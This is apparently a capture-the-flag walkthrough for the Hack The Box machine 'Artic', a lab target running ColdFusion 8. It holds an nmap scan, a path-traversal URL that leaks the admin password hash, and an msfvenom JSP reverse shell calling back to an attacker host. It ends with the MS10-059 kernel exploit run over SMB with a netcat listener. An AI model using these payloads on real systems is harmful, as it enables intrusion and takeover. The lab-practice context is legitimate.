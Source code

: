# Artic

## Scanning 

furious 10.10.10.11
nmap -sC -sV -p 135,8500,49154 -n -Pn 10.10.10.11 -oN targeted

![214953.png](214953.png)

## 8500

``http://10.10.10.11:8500``

![224036.png](224036.png)

``http://10.10.10.11:8500/CFIDE/administrator/``

![231112.png](231112.png)

```bash
searchsploit coldfusion 8
```
![231352.png](231352.png)

```bash
searchsploit -x multiple/remote/14641.py

# http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

we use the path in the exploit

http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

![000100.png](000100.png)
```bash
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
```
we could use https://crackstation.net/ to crack the password

```bash
password=happyday
```
we enter and see mappins and scheduled tasks
![160945.png](160945.png)

now we have were we can save a task
![165946.png](165946.png)
![163256.png](163256.png)

we need a reverse shell in java so we use msfvenom
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.27 LPORT=443 -f raw > shell.jsp
```

we use a python http server and start the tasks
![161258.png](161258.png)

now we listen in our machine on port 443 and enter to the url http://10.10.10.11:8500/CFIDE/shell.jsp
![175100.png](175100.png)

### user flag

```cmd
type C:\Users\tolis\Desktop\user.txt
```

## privilege escalation

we transfer the systeminfo to use windows exploit suggester
```bash
./windows-exploit-suggester.py -d 2020-10-25-mssb.xls -i /home/gato/Documentos/htb/Retired/Artic/content/systeminfo.txt
```

![175325.png](175325.png)

### MS10-059 chimichurri

we enter here to download the kernel exploit https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

we open a smb server and on the other site we download from our machine
```bash
smbserber.py a $(pwd)
```

and open a connection on 4444
```bash
nc -lvp 4444
```

and we execute using the smb server
```cmd
mkdir chimichurri
cd chumichurri
chimichurri.exe
\\10.10.14.27\a\MS10-059.exe 10.10.14.27 4444
```

### root flag
``type C:\Users\Administrator\Desktop\root.txt``
